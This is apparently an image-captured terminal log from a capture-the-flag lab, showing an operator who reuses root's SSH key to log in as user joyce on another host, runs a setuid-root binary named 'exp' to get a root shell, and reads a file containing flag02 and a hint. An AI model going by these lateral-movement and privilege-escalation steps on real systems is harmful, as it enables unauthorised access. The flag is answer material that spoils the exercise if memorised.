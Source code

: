 ```plain
root@ubuntu:/temp/home/joyce# cd .ssh
root@ubuntu:/temp/home/joyce/.ssh# ls
authorized_keys
root@ubuntu:/temp/home/joyce/.ssh# ssh  -i /root/.ssh/id_rsa joyce@172.22.13.57
Last login: Thu Feb 15 17:09:05 2024 from 172.22.13.14

Welcome to Alibaba Cloud Elastic Compute Service !

[joyce@centos ~]$ 
[joyce@centos ~]$ ls
bash.c  exp
[joyce@centos ~]$ ls -al
total 52
drwx------  3 joyce joyce  4096 Feb 15 17:15 .
drwxr-xr-x. 4 root  root   4096 Aug 10  2022 ..
-rw-r--r--  1 root  root     76 Feb 15 17:15 bash.c
-rw-------  1 joyce joyce   172 Feb 15 17:13 .bash_history
-rw-r--r--  1 joyce joyce    18 Nov 25  2021 .bash_logout
-rw-r--r--  1 joyce joyce   193 Nov 25  2021 .bash_profile
-rw-r--r--  1 joyce joyce   231 Nov 25  2021 .bashrc
-rwsr-sr-x  1 root  root  16784 Feb 15 17:15 exp
drwxr-xr-x  2 root  root   4096 Feb 15 17:08 .ssh
[joyce@centos ~]$ ./exp
[root@centos ~]# ls
bash.c  exp
[root@centos ~]# id
uid=0(root) gid=0(root) groups=0(root),994(joyce)
[root@centos ~]# cat /flag
cat: /flag: No such file or directory
[root@centos ~]# cd /
[root@centos /]# ls
bin   etc         lib         media  pAss.txt  run   sys  var
boot  flag02.txt  lib64       mnt    proc      sbin  tmp
dev   home        lost+found  opt    root      srv   usr
[root@centos /]# cat f*
 SSS  h           d                CCC            d           t         l     
S     h           d               C               d           t  ii     l     
 SSS  hhh   aa  ddd ooo w   w     C    rrr eee  ddd eee nnn  ttt     aa l  ss 
    S h  h a a d  d o o w w w     C    r   e e d  d e e n  n  t  ii a a l  s  
SSSS  h  h aaa  ddd ooo  w w       CCC r   ee   ddd ee  n  n  tt ii aaa l ss  


flag02: flag{90553d7c-e30e-42d9-b873-5888975a7d29}

hint: relay race
[root@centos /]# Connection to 172.22.13.14 closed by remote host.
Connection to 172.22.13.14 closed.
```
